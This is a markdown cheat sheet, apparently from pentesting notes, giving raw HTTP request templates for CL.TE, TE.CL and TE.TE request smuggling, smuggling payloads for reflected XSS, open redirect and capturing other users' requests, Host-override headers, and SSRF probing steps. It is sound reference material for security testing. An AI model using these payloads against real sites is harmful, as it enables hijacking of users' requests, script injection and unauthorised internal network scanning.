 # HTTP

## HTTP Smuggling

A smuggling vulnerability happens beacuse there are multiple ambiguous ways to define the length of an HTTP request the `Content-Length` header and the `Transfer-Encoding` header that is used to define the total length of a message split in chunked requests. Clients and servers may parse these headers differently and allow to include unexpected code in a HTTP request

Example of a chunked request

```
POST ... HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

b    #start delimiter
<body>
0    #end delimiter
```

#### CL.TE Exploit

Front end uses `Content-Length` and back end uses `Transfer-Encoding`

```
POST / HTTP/1.1
Host: <website>
Content-Length: 13    #count from line 5 included to the delimiter
Transfer-Encoding: chunked

0

STRING HERE
```

#### TE.CL Exploit

Front end uses `Transfer-Encoding` and back end uses `Content-Length`

```
POST / HTTP/1.1
Host: <website>
Content-Length: 3    #length from line 5 to 6 included
Transfer-Encoding: chunked

b                    #length in HEX of the lines between the first and second terminators
STRING HERE
0
[\r\n\r\n]
```

#### TE.TE Exploit

Both the client and the server use `Transfer-Encoding` but one of them can be tricked to not parse the header by obfuscating it

```
Transfer-Encoding: xchunked
Transfer-Encoding : chunked
Transfer-Encoding: chunked
Transfer-Encoding: x
Transfer-Encoding:[\t]chunked
 Transfer-Encoding: chunked
X: X[\n]Transfer-Encoding: chunked
Transfer-Encoding
: chunked
```

Complete request

```
POST / HTTP/1.1
Host: <website>
Content-Length: 3    #length from line 5 to 7 excluded
Transfer-Encoding: chunked
<obfuscated transfer encoding header>

b                    #length in HEX of the lines between the first and second terminators
STRING HERE
0
[\r\n\r\n]
```

### Reflected XSS

Allows to easily target an HTTP header and body. When a user sends his request it will be appended to the malicious smuggled request and will trigger the XSS vulnerability without requiring interaction

```
POST / HTTP/1.1
Host: <target>
Content-Length: <len>
Transfer-Encoding: chunked

0

GET / HTTP/1.1
<header>: <XSS>
Foo: X
```

### Open redirect

Allows to redirect the user to an arbitrary site by overwriting the `Host` header

```
POST / HTTP/1.1
Host: <target>
Content-Length: <len>
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: <redirect to>
Foo: X
```

### Reflect a user's request as value of an argument

Allows to steal a HTTP request from a user and print it as the value of a parameter in a GET or POST request

```
GET / HTTP/1.1
Host: <target>
Transfer-Encoding: chunked
Content-Length: <len>

0

POST <req> HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: <len>
<req param>=
```

For instance if the target request is like `/save?username=usr&msg=text` it is possible to steal the next user's request with the following payload and navigating to a point in the site where the msg parameter is displayed

```
GET / HTTP/1.1
Host: <target>
Transfer-Encoding: chunked
Content-Length: <len>

0

POST <req> HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: <len>
/save?username=usr&msg=
```

## Host Header Attacks

The host header is used to inform balancers and front end server to where to redirect the user. By tampering this header it is possible to perform SSRF attacks. To find vulnerabilities in how the Host header is parsed by using the following steps

* Send an arbitrary host
* Check for host validation where only the url is validated and not the port `hostsite.com:evil`
* Try to send a request with an url as part of an accepted subdomain `evil-hostsite.com` or `evilhostsite.com`
* Duplicate the Host header
* Add indentation before or after the header such as tabs spaces and \n
* Sending the request to a full url instead of a relative one may lead the server to parse the header differently

### Header overwrite

It is possible to overwrite the value of Host by adding one on the following headers to the request

```
X-Forwarded-Host
X-Forwarded-Server
X-HTTP-Host-Override
Forwarded
```

### SSRF

Controlling the Host header allows to scout the internal network of the target machine in order to find other servers. To verifiy the vulnerability replace the Host value with the url of a server you control. If you receive a hit from the target machine or another one in the same network then the servers are vulnerable and you can use bruteforce or dictionary attacks to locate new machines. If the response is a redirect (3XX) then the machine with the given hostname or ip address exists
